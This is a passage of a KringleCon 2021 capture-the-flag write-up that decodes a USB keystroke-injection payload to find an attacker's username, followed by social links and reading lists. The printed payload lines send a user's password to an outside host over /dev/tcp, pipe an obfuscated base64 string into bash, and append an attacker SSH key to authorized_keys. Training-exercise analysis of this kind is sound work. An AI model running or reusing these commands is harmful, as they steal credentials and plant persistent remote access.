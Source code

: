 ```
$ ./mallard.py --file /mnt/USBDEVICE/inject.bin > mallard.out
$ cat mallard.out | more
```

Interesting contents:
```text
STRING echo "$USER:$pwd:invalid" > /dev/tcp/trollfun.jackfrosttower.com/1337
```
```text
echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d | bash
```

I'm outputting the code to the `script.out`
```sh
$ echo ==gCzlXZr9FZlpXay9Ga0VXYvg2cz5yL+BiP+AyJt92YuIXZ39Gd0N3byZ2ajFmau4WdmxGbvJHdAB3bvd2Ytl3ajlGILFESV1mWVN2SChVYTp1VhNlRyQ1UkdFZopkbS1EbHpFSwdlVRJlRVNFdwM2SGVEZnRTaihmVXJ2ZRhVWvJFSJBTOtJ2ZV12YuVlMkd2dTVGb0dUSJ5UMVdGNXl1ZrhkYzZ0ValnQDRmd1cUS6x2RJpHbHFWVClHZOpVVTpnWwQFdSdEVIJlRS9GZyoVcKJTVzwWMkBDcWFGdW1GZvJFSTJHZIdlWKhkU14UbVBSYzJXLoN3cnAyboNWZ | rev | base64 -d > script.out
$ cat script.out
```
```sh
echo 'ssh-rsa UmN5RHJZWHdrSHRodmVtaVp0d1l3U2JqZ2doRFRHTGRtT0ZzSUZNdyBUaGlzIGlzIG5vdCByZWFsbHkgYW4gU1NIIGtleSwgd2UncmUgbm90IHRoYXQgbWVhbi4gdEFKc0tSUFRQVWpHZGlMRnJhdWdST2FSaWZSaXBKcUZmUHAK ickymcgoop@trollfun.jackfrosttower.com' >> ~/.ssh/authorized_keys
```

And we have the answer - it was `ickymcgoop`

![image.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1641585148470/0YpSW89eX.png)

# Additional readings

> 📌 Follow the `#CyberEthical` hashtag on the social media  
> 🎁 Become a Patron and [gain additional benefits](https://www.patreon.com/cyberethicalme)  
> 👾 Join CyberEthical [Discord server](https://discord.com/invite/5MjU4Cxf3R)  
> 👉 Instagram: [@cyber.ethical.me](https://www.instagram.com/cyber.ethical.me/)  
> 👉 LinkedIn: [CyberEthical.Me](https://www.linkedin.com/company/cyberethical-me)  
> 👉 Twitter: [@cyberethical_me](https://twitter.com/cyberethical_me)  
> 👉 Facebook: [@CyberEthicalMe](https://facebook.com/CyberEthicalMe)  

* [Official KringleCon 2021 Talks](https://www.youtube.com/playlist?list=PLjLd1hNA7YVx99qJF3OoPF-qunjqw-SoU)
* [IPv6-02 Lov'n the Link Local Address](https://www.youtube.com/watch?v=lNev5bboMnM)
* [IPv6-03 IPv6 Neighbor Discovery, Multicast and DAD](https://www.youtube.com/watch?v=O1JMdjnn0ao)
* [IPv6 cheat-sheet, part 3: IPv6 multicast](https://menandmice.com/blog/ipv6-reference-multicast)
* [OWASP: Web Parameter Tampering](https://owasp.org/www-community/attacks/Web_Parameter_Tampering)
* [Tool Syntax with IPv6](https://gist.github.com/chriselgee/c1c69756e527f649d0a95b6f20337c2f)
* [Account Manipulation: SSH Authorized Keys](https://attack.mitre.org/techniques/T1098/004/)
